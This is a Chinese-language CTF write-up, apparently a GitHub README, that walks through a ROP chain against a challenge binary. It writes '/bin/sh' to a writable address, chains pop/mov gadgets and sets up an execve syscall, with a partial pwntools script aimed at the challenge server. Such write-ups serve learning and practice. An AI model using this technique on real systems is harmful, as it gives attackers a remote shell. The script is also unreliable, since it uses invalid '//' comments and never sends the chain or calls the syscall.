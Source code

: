 <img width="492" height="112" alt="image" src="https://github.com/user-attachments/assets/384690c8-5c78-4c83-9b64-e6c8cf512224" />

這個執行檔中沒有記憶體位子是存在/bin/sh的 所以自己寫入一塊 然後再把這一塊拿來用

<img width="511" height="93" alt="image" src="https://github.com/user-attachments/assets/126ea90c-2fb2-462f-8998-ec730e6f2cc1" />

所以用pwndbg裡的vmmap 查可以寫入的address(這裡選擇寫入0x4C9000)

<img width="673" height="208" alt="image" src="https://github.com/user-attachments/assets/fb4fc24b-f237-4a26-a3c3-c5fb3b8086b2" />

用ROPgadgets找到 mov qword ptr [rsi], rax; ret的address

<img width="751" height="133" alt="image" src="https://github.com/user-attachments/assets/b40ae0d0-480d-4d4d-a42e-e395cc7c61dc" />

利用 mov qword ptr [rsi], rax; ret 
把 rax 裡面的字串 "/bin/sh\x00" 寫入到 rsi 裡面的地址(0x4C9000)

所以writeaddress就是變成前面寫進去的/bin/sh的address

所以ROP裡放入binsh 這部分是為能夠先用mov把/bin/sh寫入然後之後拿來用

#### p64(pop_rsi):
這個 gadget (pop rsi; ret) 會將暫存器 rsi 設置為下一個 64 位值。
在此被設置為 writeaddress，即 /bin/sh 存放的地址。
#### p64(writeaddress): 
在哪裡將 /bin/sh 寫入。
#### p64(pop_rax):
這個 gadget (pop rax; ret) 會將 rax 暫存器設置為下一個 64 位值。接下來，rax 暫存器將被設置為 /bin/sh 字串。
#### p64(mov)
mov 是一個 ROP gadget，其作用是將 rax 寫入 rsi 所指定的地址。這裏將 /bin/sh 寫入到目標的堆區地址。

#### p64(pop_rax) + p64(0x3b)

system call number會放入rax

<img width="1399" height="136" alt="image" src="https://github.com/user-attachments/assets/8da9340c-2fcf-4e69-8f7e-d84be3f17d86" />

<img width="1522" height="1006" alt="image" src="https://github.com/user-attachments/assets/55919e50-01d6-4832-aeea-d0d79888fb4b" />


### Code:
```python
from pwn import *
context.arch = 'amd64'
p = remote('ctf.adl.tw', 10005)

// ROP gadgets
syscall = 0x0401c74  
pop_rdi = 0x0401ebf  # pop rdi
pop_rsi = 0x0409eee  # pop rsi
pop_rdx = 0x0485c0b  # pop rdx; pop rbx ; ret
pop_rax = 0x044fcc7  # pop rax

mov = 0x0452435   # mov qword ptr [rsi], rax; ret

// Write address where "/bin/sh" will be written
writeaddress = 0x4C9000

// Build ROP chain for writing "/bin/sh" to memory
binsh = p64(pop_rsi) + p64(writeaddress) + p64(pop_rax) + b'/bin/sh\x00' + p64(mov)

rop = p64(pop_rdi) + p64(writeaddress)  # Set rdi to the address of "/bin/sh"
rop += p64(pop_rsi) + p64(0x0)  # Set rsi to NULL
rop += p64(pop_rdx) + p64(0x0)*2   # Set rdx to NULL
rop += p64(pop_rax) + p64(0x3b)  # Set rax to 0x3b (syscall number for execve)
```